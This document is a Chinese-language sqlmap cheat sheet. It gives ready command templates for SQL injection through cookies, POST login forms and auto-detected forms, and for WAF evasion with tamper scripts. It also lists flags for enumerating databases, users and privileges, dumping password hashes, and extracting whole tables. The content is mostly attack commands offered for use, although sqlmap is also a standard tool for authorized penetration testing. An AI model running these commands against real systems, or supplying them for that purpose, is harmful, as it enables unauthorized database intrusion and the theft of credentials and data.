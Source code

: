 sqlmap详解：
 

cookie注入：sqlmap.py -u 注入点 --cookie "参数" --tables --level 2

POST登录框注入：sqlmap.py -r 从文件读取数据 -p 指定的参数 --tables

sqlmap.py -u 登录的地址 --forms 自动判断注入

sqlmap.py -u 登录的地址 --data "指定参数"

绕过waf防火墙：sqlmap.py -u 注入点 -v 3 --dbs --batch --tamper space2morehash.py,space2hash.py,base64encode.py,charencode.py

 

-u #注入点

-g 谷歌搜索

-f #指纹判别数据库类型

-b #获取数据库版本信息

-p #指定可测试的参数(?page=1&id=2 -p “page,id”)

-D “” #指定数据库名

-T “” #指定表名

-C “” #指定字段

-s “” #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s “xx.log”　　恢复:-s “xx.log” –resume)

–columns #列出字段

–current-user #获取当前用户名称

–current-db #获取当前数据库名称

–users #列数据库所有用户

–passwords #数据库用户所有密码

–privileges #查看用户权限(–privileges -U root)

-U #指定数据库用户

–dbs #列出所有数据库

–tables -D “” #列出指定数据库中的表

–columns -T “user” -D “mysql” #列出mysql数据库中的user表的所有字段

–dump-all #列出所有数据库所有表

–exclude-sysdbs #只列出用户自己新建的数据库和表

–dump -T “” -D “” -C “” #列出指定数据库的表的字段的数据(–dump -T users -D master -C surname)

–dump -T “” -D “” –start 2 –top 4 # 列出指定数据库的表的2-4字段的数据

–dbms #指定数据库(MySQL,Oracle,PostgreSQL,Microsoft SQL Server,Microsoft Access,SQLite,Firebird,Sybase,SAP MaxDB)

–os #指定系统(Linux,Windows)

